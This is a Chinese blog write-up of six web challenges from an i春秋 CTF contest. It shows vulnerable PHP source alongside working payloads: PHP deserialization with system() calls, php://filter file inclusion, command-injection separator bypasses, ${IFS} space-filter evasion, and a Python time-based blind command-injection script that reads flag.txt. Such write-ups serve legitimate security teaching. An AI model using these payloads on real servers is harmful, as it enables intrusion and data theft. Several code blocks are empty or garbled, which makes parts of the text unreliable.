<!--yml
category: 未分类
date: 2022-04-26 14:39:04
-->

# i春秋网络内生安全试验场CTF夺旗赛（第四季）12月赛web write up题解_努力的学渣'#的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_41598660/article/details/103739112](https://blog.csdn.net/weixin_41598660/article/details/103739112)

题主也是个刚入门的小菜鸡，而且最近临近期末，无奈能力有限只能作出部分web题（未完待续…)

期末考完了，还是很菜的我，继续完成剩下的web题，并尝试这用自己的想法去理解，如果是小白，看这篇write up说不定会好理解，路漫漫且远兮，一起加油！

1.  题目：nani
2.  题目：admin
3.  题目：Ping
4.  题目：random
5.  题目：post1
6.  题目：post2

* * *

## <mark>题目：nani</mark>

看源码有提示，

构造语句读取user.php

```
http: 
```

base64解码，得出源码

```
<?php
class convent{
	var $warn = "No hacker.";
	function __destruct(){
		eval($this->warn);
	}
	function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
			$this->$k = null;
		}
	}
}
$cmd = $_POST[cmd];
unserialize($cmd);
?> 
```

构造序列化语句：
s对应的是string的字数，所以

```
cmd=O:7:"convent":2:{s:4:"warn";s:17:"system("whoami");";} 
```



s对应的是string的字数，所以

```
cmd=O:7:"convent":2:{s:4:"warn";s:13:"system("ls");";} 
```


懒得数字数，直接python。

改下s数量 直接得flag


## <mark>题目：admin</mark>

看源码有提示

```
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); 
}else{
    echo "you are not admin ! ";
}
 --> 
```

构造`http://120.55.43.255:28119/?user=php://input&file=php://filter/convert.base64-encode/resource=class.php&pass=1`
Post传递admin


解码得出

```
<?php
error_reporting(E_ALL & ~E_NOTICE);

class Read{
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "Awwwwwwwwwww man";
    }
}
?> 
```

最后构造序列化

```
http: 
```


最后base64解码 得出flag

## <mark>题目：Ping</mark>

看源码有提示

构造

```
http: 
```

post传输password[]=asdasd

base64解码得出源码

```
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
} 
```

我们进行绕过处理
linux中：%0a 、%0d 、; 、& 、| 、&&、||
windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符）

最后直接cat 得flag


## <mark>题目random</mark>

```
<?php 
    show_source(__FILE__); 
    include "flag.php"; 
    $a = @$_REQUEST['hello']; 
    $seed = @$_REQUEST['seed']; 
    $key = @$_REQUEST['key']; 

    mt_srand($seed); 
    $true_key = mt_rand(); 
    if ($key == $true_key){ 
        echo "Key Confirm"; 
    } 
    else{ 
        die("Key Error"); 
    } 
    eval( "var_dump($a);"); 
?>  Key Error 
```

**这段代码意思就是说要post传入seed，
seed在mt_srand（）这个函数下出来的值要和post传入的key值相等才会执行下一步eval( "var_dump( a ) ; " ) 如 果 a);") 如果 a);")如果key == $true_key值不等，就会执行else这个进程die（）结束掉。**

走一段php程序，先得出相等的key值

```
<?php
    $seed = 1;
    $key = @$_REQUEST['key'];

    mt_srand($seed);
    $true_key = mt_rand();
    echo $true_key;
?>
得出值1244335972 
```

构造playlaod

```
payload = http: 
```

**playload构造也是有一定的意思的，hello的值传给$a a = @ a = @ a=@_REQUEST[‘hello’];，同时要闭合eval( “var_dump($a);”);
效果如下eval（“var_dump（1）；system（‘ls‘）；”）
这样就执行了system（‘ls‘）这个函数的命令，然后cat得flag**

## 
<mark>Post1</mark>

进入页面

查看源码

```
POST[a] 这次我们玩过滤好了。
<!--
	eval(system($c));
--> 
```

Linux文本查看命令(cat,tac,rev,head,tail,more,less,cut)尝试一下

很有意思，尝试到cut的时候（没抓到重点）就没有了，意思是我抓到重点了？


但其实这题，并没有绕过{}

```
${IFS}直接用就行了
a=cut${IFS}-b1-${IFS}flag.txt即可构造出来 
```

查看的语法cut -b1 - flag.txt（b意思是里的1个字符串）


假设如果此题是绕过了空格和{}，做法如下：

```
**$9是命令行的第九个参数 不存在 所以是空 ，让$IFS可以解析 
```

## cut查看语句
打印从第1个字符开始到结尾：cut -c1- flag.txt**
（第2个字符开始，就用c2，以此类推，c的用法就是单个字节）

<mark>最后一题post2</mark>

看write up才只是懂个大概，解题是这样子的
用如下脚本跑flag，各位看客可以自己读下代码意思。

```
import requests
import string
dic = string.printable
flag = ""
for j in range(1,33):
	for i in range(len(dic)):
		url = "http://120.55.43.255:22712"
		data = {
			"cmd" : '''[ `cut -c '''+str(j)+''' flag.txt` =  "%c" ]  && sleep 5'''%dic[i]
		}
		try:
			r = requests.post(url,data=data,timeout=1)

		except requests.exceptions.ReadTimeout,e:
			flag += dic[i]
			print flag
			break 
```

